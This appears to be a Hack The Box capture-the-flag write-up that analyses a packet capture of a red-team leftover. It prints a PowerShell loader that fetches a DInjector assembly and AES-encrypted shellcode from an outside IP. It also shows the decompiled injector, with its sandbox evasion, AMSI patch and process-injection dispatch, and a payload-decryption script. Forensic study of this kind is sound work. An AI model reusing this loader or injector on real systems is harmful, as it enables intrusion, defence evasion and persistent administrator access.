




# Red Failure

## Scenario

During a recent red team engagement one of our servers got compromised. Upon completion the red team should have deleted any malicious artifact or persistence mechanism used throughout the project. However, our engineers have found numerous of them left behind. It is therefore believed that there are more such mechanisms still active. Can you spot any, by investigating this network capture?

## Given artifacts

A packet capture file

## Solving process

The pcap file is rather short, only 171 packets so I won't check the hierarchy, let's read all!

At the very beginning, we can see a suspicious powershell script being downloaded thorough HTTP, let's export it for investigation:





I will use powershell itself to recover the script, by copy-pasting the string format parts to a new powershell window:

```powershell 
sV  YuE51 ([typE] System.Reflection.Assembly);  ${a} = "CurrentThread"
${B} = 147.182.172.189
${C} = 80
${D} = user32.dll
${E} = 9tVI0
${f} = z64&Rx27Z$B%73up
${g} = C:\Windows\System32\svchost.exe
${h} = notepad
${I} = explorer
${j} = msvcp_win.dll
${k} = True
${l} = True
${MeThODS} = @("remotethread", "remotethreaddll", "remotethreadview", "remotethreadsuspended")
if (${mEThOdS}.Contains.Invoke(${A})) {
    ${h} = (Start-Process -WindowStyle Hidden -PassThru ${H}).Id
}
${METhODS} = @("remotethreadapc", "remotethreadcontext", "processhollow")
if (${mEthODS}.Contains.Invoke(${a})) {
    try {
        ${I} = (&Get-Process ${I} -ErrorAction Stop)."ID"
    }
    catch {
        ${I} = 0
    }
}
${cMD} = "${A} /sc:http://${B}:${C}/${E} /password:${F} /image:${G} /pid:${H} /ppid:${I} /dll:${J} /blockDlls:${K} /am51:${L}"

${dAtA} = (.IWR -UseBasicParsing "http://${B}:${C}/${D}")."ContEnT"
${AssEM} =  ( ls variable:yUE51  )."VaLUe"::Load.Invoke(${dAtA})

${fLAGS} = [Reflection.BindingFlags] NonPublic,Static

${clASs} = ${asSEm}.GetType.Invoke("DInjector.Detonator", ${flAgS})
${EnTRY} = ${ClASS}.GetMethod.Invoke("Boom", ${fLAGS})
${EntRY}."INVokE"(${nULL}, (, ${cmd}.Split.Invoke(" ")))
```

It first creates some variables holding values for subsequent payload. The subsequent `if` statements check for injection method from `$A` to prepare for proper process:

1. If the method belongs to create remote thread group, the script will stealthily open a hidden notepad window and take that PID to inject the malware.

2. If the method belongs to hollowing process or APC, it will take PID of explorer.exe

Then a lot of variables is concatenated to form a sequence of arguments in `$cmd`, including the shellcode address for downloading, decryption password, spoofing process ID,...

After that, it uses IWR to connect to that IP to get a fake dll named `user32.dll`, indeed this is DInjector, a famous tool for red team, you will see later. Then it uses Reflection to inject the downloaded dll into the memory of powershell process itself. Finally, it finds class Detonator and method Boom() inside that dll and passes all arguments from `$cmd` into Boom function and executes it.

Since `user32.dll` or indeed `DInjector` is .NET assembly, using `dnSpy` to crack open it is a standard way, firstly we will need to export it along with the encrypted shellcode as HTTP objects:



Well, a sophisticated red team's famous tool. But let's focus only on the aforementioned `Detonator` class and `Boom()` function:

```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;

namespace DInjector
{
	// Token: 0x02000008 RID: 8
	internal class Detonator
	{
		// Token: 0x0600001B RID: 27
		[DllImport("kernel32.dll", ExactSpelling = true, SetLastError = true)]
		private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect, uint nndPreferred);

		// Token: 0x0600001C RID: 28
		[DllImport("kernel32.dll")]
		private static extern void Sleep(uint dwMilliseconds);

		// Token: 0x0600001D RID: 29 RVA: 0x000031C0 File Offset: 0x000013C0
		private static void Boom(string[] args)
		{
			if (Detonator.VirtualAllocExNuma(Process.GetCurrentProcess().Handle, IntPtr.Zero, 4096U, 12288U, 4U, 0U) == IntPtr.Zero)
			{
				return;
			}
			int num = new Random().Next(2000, 3000);
			double num2 = num / 1000 - 0.5;
			DateTime now = DateTime.Now;
			Detonator.Sleep((uint)num);
			if (DateTime.Now.Subtract(now).TotalSeconds < num2)
			{
				return;
			}
			Dictionary<string, string> dictionary = ArgumentParser.Parse(args);
			try
			{
				if (bool.Parse(dictionary["/am51"]))
				{
					AM51.Patch();
				}
			}
			catch (Exception)
			{
			}
			string text = string.Empty;
			foreach (KeyValuePair<string, string> keyValuePair in dictionary)
			{
				if (keyValuePair.Value == string.Empty)
				{
					text = keyValuePair.Key;
				}
			}
			string text2 = dictionary["/sc"];
			string password = dictionary["/password"];
			byte[] data;
			if (text2.IndexOf("http", StringComparison.OrdinalIgnoreCase) >= 0)
			{
				Console.WriteLine("(Detonator) [*] Loading shellcode from URL");
				WebClient webClient = new WebClient();
				ServicePointManager.SecurityProtocol = (SecurityProtocolType.Tls | SecurityProtocolType.Tls11 | SecurityProtocolType.Tls12);
				MemoryStream memoryStream = new MemoryStream(webClient.DownloadData(text2));
				data = new BinaryReader(memoryStream).ReadBytes(Convert.ToInt32(memoryStream.Length));
			}
			else
			{
				Console.WriteLine("(Detonator) [*] Loading shellcode from base64 input");
				data = Convert.FromBase64String(text2);
			}
			byte[] array = new AES(password).Decrypt(data);
			int ppid = 0;
			try
			{
				ppid = int.Parse(dictionary["/ppid"]);
			}
			catch (Exception)
			{
			}
			bool blockDlls = false;
			try
			{
				if (bool.Parse(dictionary["/blockDlls"]))
				{
					blockDlls = true;
				}
			}
			catch (Exception)
			{
			}
			uint num3 = <PrivateImplementationDetails>.ComputeStringHash(text);
			if (num3 <= 1633653762U)
			{
				if (num3 <= 1013440982U)
				{
					if (num3 != 597187931U)
					{
						if (num3 != 886880049U)
						{
							if (num3 != 1013440982U)
							{
								return;
							}
							if (!(text == "functionpointerv2"))
							{
								return;
							}
							FunctionPointerV2.Execute(array);
							return;
						}
						else
						{
							if (!(text == "processhollow"))
							{
								return;
							}
							ProcessHollow.Execute(array, dictionary["/image"], ppid, blockDlls);
							return;
						}
					}
					else
					{
						if (!(text == "remotethread"))
						{
							return;
						}
						RemoteThread.Execute(array, int.Parse(dictionary["/pid"]));
						return;
					}
				}
				else if (num3 != 1337743390U)
				{
					if (num3 != 1581928577U)
					{
						if (num3 != 1633653762U)
						{
							return;
						}
						if (!(text == "remotethreadcontext"))
						{
							return;
						}
						RemoteThreadContext.Execute(array, dictionary["/image"], ppid, blockDlls);
						return;
					}
					else
					{
						if (!(text == "currentthreaduuid"))
						{
							return;
						}
						CurrentThreadUuid.Execute(Encoding.UTF8.GetString(array));
						return;
					}
				}
				else
				{
					if (!(text == "clipboardpointer"))
					{
						return;
					}
					ClipboardPointer.Execute(array);
					return;
				}
			}
			else if (num3 <= 2585521376U)
			{
				if (num3 != 2000324974U)
				{
					if (num3 != 2145053022U)
					{
						if (num3 != 2585521376U)
						{
							return;
						}
						if (!(text == "remotethreadsuspended"))
						{
							return;
						}
						RemoteThreadSuspended.Execute(array, int.Parse(dictionary["/pid"]));
						return;
					}
					else
					{
						if (!(text == "currentthread"))
						{
							return;
						}
						CurrentThread.Execute(array);
						return;
					}
				}
				else
				{
					if (!(text == "remotethreadview"))
					{
						return;
					}
					RemoteThreadView.Execute(array, int.Parse(dictionary["/pid"]));
					return;
				}
			}
			else if (num3 != 2602728598U)
			{
				if (num3 != 3284651259U)
				{
					if (num3 != 3819032365U)
					{
						return;
					}
					if (!(text == "remotethreaddll"))
					{
						return;
					}
					RemoteThreadDll.Execute(array, int.Parse(dictionary["/pid"]), dictionary["/dll"]);
					return;
				}
				else
				{
					if (!(text == "remotethreadapc"))
					{
						return;
					}
					RemoteThreadAPC.Execute(array, dictionary["/image"], ppid, blockDlls);
					return;
				}
			}
			else
			{
				if (!(text == "functionpointer"))
				{
					return;
				}
				FunctionPointer.Execute(array);
				return;
			}
		}
	}
}

```

I will explain this class part by part:

1. Sandbox evasion: It checks for physical memory allocation, in many simple emulator or sandbox environment, API related to NUMA not being properly configured may return `IntPtr.Zero`. Moreover, it also checks for time, some sandbox uses fast-forward feature. In both cases, it will immediately exit.

2. Preparation and Disable Protection: take argument from `args` array (the `$cmd` passed in powershell script) and check for AMSI flag, if it is `true`, the script will call the `Patch()` function to find way to disable it, making Windows Defender unable to scan for virus.

3. Download and decrypt payload: malware take the payload's link from `dictionary["/sc"]` and password from `dictionary["/password"]`. Then it downloads byte array of file `9tVI0` to the memory, then a new AES object is created with the password, then passes the raw byte from the payload to decrypt function, we will need to visit that AES class for further analysis:

```c#
using System;
using System.IO;
using System.Linq;
using System.Security.Cryptography;
using System.Text;

namespace DInjector
{
	// Token: 0x02000019 RID: 25
	internal class AES
	{
		// Token: 0x0600004C RID: 76 RVA: 0x00005689 File Offset: 0x00003889
		public AES(string password)
		{
			this.key = SHA256.Create().ComputeHash(Encoding.UTF8.GetBytes(password));
		}

		// Token: 0x0600004D RID: 77 RVA: 0x000056AC File Offset: 0x000038AC
		private byte[] PerformCryptography(ICryptoTransform cryptoTransform, byte[] data)
		{
			byte[] result;
			using (MemoryStream memoryStream = new MemoryStream())
			{
				using (CryptoStream cryptoStream = new CryptoStream(memoryStream, cryptoTransform, CryptoStreamMode.Write))
				{
					cryptoStream.Write(data, 0, data.Length);
					cryptoStream.FlushFinalBlock();
					result = memoryStream.ToArray();
				}
			}
			return result;
		}

		// Token: 0x0600004E RID: 78 RVA: 0x00005714 File Offset: 0x00003914
		public byte[] Decrypt(byte[] data)
		{
			byte[] result;
			using (AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider())
			{
				byte[] iv = data.Take(16).ToArray<byte>();
				byte[] data2 = data.Skip(16).Take(data.Length - 16).ToArray<byte>();
				aesCryptoServiceProvider.Key = this.key;
				aesCryptoServiceProvider.IV = iv;
				aesCryptoServiceProvider.Mode = CipherMode.CBC;
				aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
				using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateDecryptor(aesCryptoServiceProvider.Key, aesCryptoServiceProvider.IV))
				{
					result = this.PerformCryptography(cryptoTransform, data2);
				}
			}
			return result;
		}

		// Token: 0x04000002 RID: 2
		private byte[] key;
	}
}
```

Looking at the constructor, we will see that it does not use that password as AES key directly. Instead, it converts that password to bytes with UTF-8 encoding, then hashes those bytes with SHA256. The output of SHA256 will always be a 32 bytes array, this is the AES-256 key.

Inside the `Decrypt()` function, it takes the first 16 bytes as Initialization vector, the actual data starts from 17-th byte. Some configuration:
- Mode: `CipherMode.CBC` (Cipher Block Chaining).

- Padding: `PaddingMode.PKCS7`

Now, let's construct a python script to decrypt the payload:

```python
import hashlib
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad

with open("9tVI0", "rb") as f:
    data = f.read()

password = "z64&Rx27Z$B%73up"
key = hashlib.sha256(password.encode('utf-8')).digest()

iv = data[:16]
ciphertext = data[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
try:
    decrypted_data = unpad(cipher.decrypt(ciphertext), AES.block_size, style='pkcs7')
    
    with open("shellcode_decrypted.bin", "wb") as f:
        f.write(decrypted_data)
    print("Success")
    
except ValueError as e:
    print("Something went wrong", e)
```

After successfully decrypting the shellcode, we will inspect it. As shellcode is not an independent executable file, just a series of Opcodes/Machine code, we will need to use some shellcode debugger, `scdbg` is standard, but I will use `speakeasy`, a python tool that will print functions that are executed in the shellcode:



The malicious shellcode tries to create a new user named `jmiller`, and password is that flag, it also adds this user to the admin group: Privilege Escalation and Persistence!

`Flag: HTB{00000ps_1_t0t4lly_f0rg0t_1t}`